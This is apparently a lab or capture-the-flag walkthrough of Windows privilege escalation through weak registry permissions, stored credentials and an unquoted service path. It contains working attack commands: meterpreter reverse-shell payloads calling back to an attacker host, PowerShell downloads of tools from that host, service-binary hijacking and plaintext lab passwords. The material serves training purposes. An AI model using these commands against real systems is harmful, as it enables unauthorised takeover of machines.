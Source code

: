 ```yaml
---
date: 2025-01-19
categories: [CTF, IML]
title: "IML - Privilege Escalation: Windows – Demonstrate Your Skills"
tags: ['privilege escalation', 'rce', 'reverse shell', 'windows']

description: "Privilege Escalation Windows - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Privilege Escalation: Windows – Demonstrate Your Skills


![image1](../resources/7a304a995386414aa0eeb7ca971bdfce.png)

```bash
xfreerdp /v:10.102.88.102 /u:teddy /p:burger /dynamic-resolution

```
**<u>Weak Registry Permissions</u>**

- Upload WinPEAS

Found:


![image2](../resources/de764fd4ad864270841fa567ae1509dc.png)


![image3](../resources/845fed01b4384d938ef0489ab71d375c.png)

- Can also check manullay with:
Upload accesschk64.exe

```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/accesschk64.exe',' C:\Users\teddy\accesschk64.exe')
.\accesschk64.exe #Run this first and agree to the terms
.\accesschk64.exe -kw hklm\System\CurrentControlSet\Services | Select-String -Pattern "teddy" -Context 1,3

```

![image4](../resources/01a177b5a2704990a3362fa35c2629b8.png)

```bash
reg query HKLM\system\currentcontrolset\services\InstallerService /s /v imagepath

```

![image5](../resources/9f921983d65e4456bf900f039f266305.png)

```bash
Get-Acl -Path HKLM:system\currentcontrolset\services\InstallerService | format-list

```

![image6](../resources/29dc29ab4de04e319c662bd0ad53f96d.png)

```bash
$acl = get-acl HKLM:system\currentcontrolset\services\InstallerService

ConvertFrom-SddlString -Sddl $acl.Sddl | Foreach-Object {$_.DiscretionaryAcl}

```

![image7](../resources/e693a609ebc8468e93c025fcde5ca396.png)

- Create payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.102.155.66 LPORT=4445 -f exe -o reverse.exe

```
- Set up listener
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 10.102.155.66; set lport 4445; exploit"

```
- Copy reverse payload over:
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/reverse.exe',' C:\Users\teddy\reverse.exe')

```
- Modifying The Registry "InstallerService"

We will now modify the ImagePath value for the InstallerService registry and set it as the path of the custom executable "reverse.exe"

```bash
reg add "HKLM\system\currentcontrolset\services\InstallerService" /t REG_EXPAND_SZ /v ImagePath /d C:\Users\teddy\reverse.exe" /f

```

![image8](../resources/ff5f4374191842878cdde90475b9b0a4.png)

```bash
whoami /all

```

![image9](../resources/363deb1fbd6a450db6630a5640c756bd.png)

User has the **SeShutdownPrivilege** - So we can restart the machine, which will restart the service:

```bash
shutdown /r /t 0

```
Got SYSTEM shell


![image10](../resources/32f3b39d7e4c438bab3c9f6a7ba146ef.png)

- More stable shell:
```bash
ps

migrate <ps number>

```

![image11](../resources/e8f949c517354612b93061fa2bb65d1a.png)


![image12](../resources/18f4c639c9f44123b8dfa8ff45f14238.png)

**DefaultUserAccount : U8WXLhuAVQs25f7R**

**<u>Stolen Credentials</u>**


![image13](../resources/b066c87be9984451807c42b606df997a.png)

```bash
xfreerdp /v:10.102.188.254 /u:DefaultUserAccount /p:U8WXLhuAVQs25f7R /dynamic-resolution

```
- Upload WinPEAS:
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/winPEAS.exe',' C:\Users\DefaultUserAccount\winPEAS.exe')

```

![image14](../resources/8e0cd5a5855a4e5688341e804a62574d.png)


![image15](../resources/71f674f6c0cb4476a7d3f1c2215ed1b1.png)


![image16](../resources/1916f8cd44f8436280b1a47c8b6776cc.png)

- We can read files from svcSetup:

C:\Users\svcSetup\My Documents\Shared Documents\Development\ChangePassword\credentials\pass

C:\Users\svcSetup\My Documents\Shared Documents\Development\ChangePassword\credentials\user

- Base64 decode the files:
```bash
echo "c3ZjU2V0dXA=" | base64 -d

echo "U2V0dXAtQWNjb3VudC1QYXNzd29yZC0x" | base64 -d

```

![image17](../resources/987673429cbb4a72afb0cbe186fadfb5.png)

**svcsetup : Setup-Account-Password-1**

- Run cmd as admin - More choices

![image18](../resources/49119e8dc6214447a47755e7a50f386b.png)


![image19](../resources/4aad4d87a441411c8939bc62ca2cbf1c.png)

**rudy : m9R4pvrRjgFk**

**<u>Unquoted Service Path</u>**


![image20](../resources/f507169bc8e04cc4a6871e7637849d03.png)

```bash
xfreerdp /v:10.102.131.27 /u:rudy /p:m9R4pvrRjgFk /dynamic-resolution

```
- Upload WinPEAS
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/winPEAS.exe',' C:\Users\rudy\winPEAS.exe')

```

![image21](../resources/636a6a6d1b734248bae0d3f1296058fd.png)

NewUpdaterService(NewUpdaterService)\[**C:\Program Files\Dev Builds\New Updater Service\Automatic Updater.exe**\] - Auto - Running - isDotNet - No quotes and Space detected

File Permissions: rudy \[AllAccess\]


Possible DLL Hijacking in binary folder: **C:\Program Files\Dev Builds\New Updater Service** (rudy \[AllAccess\])

- Manually Check for Services:
```bash
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where { $_.PathName -notlike "C:\Windows\*" } | select Name,DisplayName,StartMode,PathName

```

![image22](../resources/06cc989c0b3e4f4ca7e7e5ec48464c53.png)

- Enumerate the system architecture before uploading tools:
```bash
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

```

![image23](../resources/ae5e9cbce60f459b9b4b4fe3aa048d34.png)

- Upload accesschk
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/accesschk64.exe',' C:\Users\rudy\accesschk64.exe')

```
- With accesschk on the system, we want to enumerate the permissions on the service folder:

```bash
.\accesschk64.exe -wvud "C:\Program Files\Dev Builds\New Updater Service" -accepteula

```

![image24](../resources/6cc1cebb05724c189bfc86c191c16af6.png)

Rudy has FILE_ALL_ACCESS on this folder

- Create payload
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.102.155.66 LPORT=5555-f exe -o "Automatic Updater.exe"

```
- Set up listener
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 10.102.155.66; set lport 5555; exploit"

```
- Upload reverse shell
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/"Automatic Updater.exe"',' C:\Users\rudy\\Automatic Updater.exe"')

```
- Rename the original
```bash
mv C:\Program Files\Dev Builds\New Updater Service\Automatic Updater.exe C:\Program Files\Dev Builds\New Updater Service\Automatic.bak

```
- Move the malicious file into the original folder
```bash
mv ".\Automatic Updater.exe" "C:\Program Files\Dev Builds\New Updater Service"
```

```bash
shutdown /r /t 0 #Because we have the SeShutdown Privilege
```

Got shell

![image25](../resources/60a056233748485a912c1e04cfa98ab2.png)

- More stable shell:
```bash
ps

migrate <ps number>
```

![image26](../resources/213cd56da6394d239272c9225e743d06.png)